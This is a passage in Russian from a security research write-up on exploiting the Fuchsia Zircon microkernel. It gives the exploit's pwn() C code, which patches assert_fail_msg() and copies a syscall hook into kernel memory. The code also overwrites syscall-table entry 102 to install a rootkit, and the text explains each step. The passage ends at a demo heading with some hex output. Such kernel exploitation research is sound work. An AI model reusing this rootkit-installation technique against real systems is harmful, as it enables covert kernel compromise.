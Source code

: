 А теперь перейдем к самой интересной части — постановке руткита. Функция `pwn()` из эксплойта копирует исполняемый код хука на место функции `assert_fail_msg()` в микроядре Zircon:

```c
#define ZIRCON_ASSERT_FAIL_MSG 0xffffffff001012e0
#define HOOK_CODE_OFFSET 4
#define HOOK_CODE_SIZE 60

  char *hook_addr = (char *)ZIRCON_ASSERT_FAIL_MSG;
  hook_addr[0] = 0xc3; // ret to avoid assert
  hook_addr++;
  memcpy(hook_addr, (char *)process_create_hook + HOOK_CODE_OFFSET, HOOK_CODE_SIZE);
  hook_addr += HOOK_CODE_SIZE;
  const char *pwn_msg = "ROOTKIT HOOK: syscall 102 process_create()\n";
  strncpy(hook_addr, pwn_msg, strlen(pwn_msg) + 1);

#define SYSCALL_N_PROCESS_CREATE 102
#define SYSCALL_TABLE 0xffffffff003c49f8

  unsigned long *syscall_table_item = (unsigned long *)SYSCALL_TABLE;
  syscall_table_item[SYSCALL_N_PROCESS_CREATE] = (unsigned long)ZIRCON_ASSERT_FAIL_MSG + 1; // after ret

  return 42; // don't pass the type check in DownCastDispatcher
```

Рассмотрим этот процесс подробнее:

1. Переменная `hook_addr` инициализируется адресом ядерной функции `assert_fail_msg()`.
2. Первый байт функции перезаписывается значением `0xc3`, что соответствует инструкции `ret`. С помощью этого я избегаю отказа микроядра при неуспешной проверке assertion. Теперь, если Zircon вызывает `assert_fail_msg()`, происходит немедленный возврат из функции, и ядро продолжает работать.
3. Вслед за байтом `0xc3` эксплойт располагает исполняемый код хука `process_create_hook()` для системного вызова `zx_process_create()`. Устройство хука я описал выше.
4. После кода хука эксплойт располагает строку сообщения, которую я хочу печатать в ядерном журнале на каждом системном вызове `zx_process_create()`. Когда хук выполнит инструкцию `mov $" XSTR(ZIRCON_ASSERT_FAIL_MSG + 1 + HOOK_CODE_SIZE) ",%rdi`, адрес этой строки попадет в регистр `rdi`. Здесь один байт прибавлен к адресу строки из-за дополнительной инструкции `ret`, которая была записана в начале функции `assert_fail_msg()`.
5. После размещения хука и его строки в ядерном коде функция `pwn()` записывает адрес хука `ZIRCON_ASSERT_FAIL_MSG + 1` в 102-й элемент таблицы системных вызовов, который должен указывать на обработчик для `zx_process_create()`.
6. Наконец, функция `pwn()` эксплойта возвращает число 42. Зачем? Как было описано выше, Zircon использует мою фальшивую таблицу виртуальных методов и вызывает `pwn()` в качестве метода `TimerDispatcher.get_type()`. Настоящий метод `get_type()` для этого ядерного объекта возвращает число 16, чтобы пройти проверку типа и продолжить исполнение. А я возвращаю 42, чтобы, напротив, проверка типа не сработала, обработка системного вызова `zx_timer_cancel()` поскорее закончилась и из-за атакованного объекта `TimerDispatcher` в системе больше ничего не сломалось.

Вот и все. Руткит установлен в микроядро Zircon операционной системы Fuchsia!

# Демонстрация прототипа эксплойта


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4